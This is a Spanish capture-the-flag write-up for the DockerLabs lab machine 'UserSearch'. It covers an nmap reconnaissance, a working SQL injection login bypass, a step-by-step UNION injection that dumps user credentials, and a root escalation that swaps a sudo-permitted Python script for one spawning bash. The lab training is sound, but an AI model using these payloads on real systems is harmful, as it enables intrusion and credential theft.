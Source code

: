 #MAQUINA #DOCKERLABS #MEDIO 
#SQLI #MANUAL_SQLI
<hr>

# RECONOCIMIENTO

Vamos a resolver **UserSearch** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.18.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.18.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:36 CET
Initiating ARP Ping Scan at 11:36
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 11:36, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:36
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 11:36, 0.55s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2025-03-17 11:36:26 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:12:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.18.0.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:36 CET
Nmap scan report for 172.18.0.2
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
|_  256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: User Search
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds




```

   ```bash

nmap --script="http-enum" 172.18.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:37 CET
Nmap scan report for 172.18.0.2
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un login.
Si ponemos admin, nos da su contra. La probamos y nada.
# EXPLOTACION

Vemos si es vulnerable a **SQLI**:

   ```bash
admin' or 1=1 -- -
```

Nos muestra usuarios y sus contras:
```html
<p>Username: admin - Password: adminpassword</p><p>Username: user1 - Password: user1password</p><p>Username: kvzlx - Password: kvzlxpassword</p>
```

ESTAMOS COMO KVZLX al entrar vía ssh.

**PASO A PASO :** 

Vamos a hacerlo ahora paso a paso, primero vamos a ver el numero de columnas:

```bash
'order by 3 -- -
```

A partir de 3 no nos devuelve "NO RESULTS"

Ahora vamos a mostrar la db :

```bash
'union select 1,database(),3 -- -
'union select 1,group_concat(schema_name),3 from information_schema.schemata -- -
```

Se llama **testdb**.

```base
'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="testdb"-- -
```

La tabla es **users**.

```base
'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema="testdb" and table_name="users"-- -
```

Tenemos las columnas **id**, **username** y **password**.

```base
'union select 1,group_concat(username, ':', password),3 from testdb.users -- -
```

Nos saca lo mismo :
```bash
Username: admin:adminpassword,user1:user1password,kvzlx:kvzlxpassword - Password: 3
```

ESTAMOS COMO KVZLX al entrar vía ssh.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
kvzlx@657f6c597386:~$ sudo -l
Matching Defaults entries for kvzlx on 657f6c597386:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 657f6c597386:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py


```

Vemos **/home/kvzlx/system_info.py** con permisos SUDO, que aunque no es nuestro, como esta dentro de nuestro directorio personal podemos eliminarlo y crear otro :

   ```bash
kvzlx@657f6c597386:~$ cat system_info.py 
import os

os.execv("/bin/bash",["-p"])
kvzlx@657f6c597386:~$ sudo /usr/bin/python3 /home/kvzlx/system_info.py
root@657f6c597386:/home/kvzlx# whoami
root
root@657f6c597386:/home/kvzlx# 

```

**YA ESTAMOS COMO ROOT.**